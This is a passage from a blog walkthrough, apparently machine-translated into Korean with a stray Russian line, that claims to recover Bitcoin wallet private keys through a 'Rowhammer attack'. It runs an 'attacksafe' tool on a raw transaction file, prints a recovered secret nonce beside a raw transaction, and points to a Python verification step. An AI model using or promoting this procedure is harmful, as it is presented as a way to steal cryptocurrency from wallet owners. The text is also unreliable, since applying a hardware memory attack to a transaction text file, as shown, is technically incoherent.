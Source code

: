 
<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-145-1024x299.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1252"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool rowhammer_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-146-1024x452.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1254"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca

RawTX = 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>우리는 비트코인 ​​블록체인 트랜잭션의 치명적인 취약점을 의미하는&nbsp;비문을 봅니다 .</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>파이썬</em>&nbsp;스크립트&nbsp;로 확인하자<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>ECPy</strong></a>&nbsp;타원 곡선 라이브러리를 사용해 봅시다&nbsp;.</p>

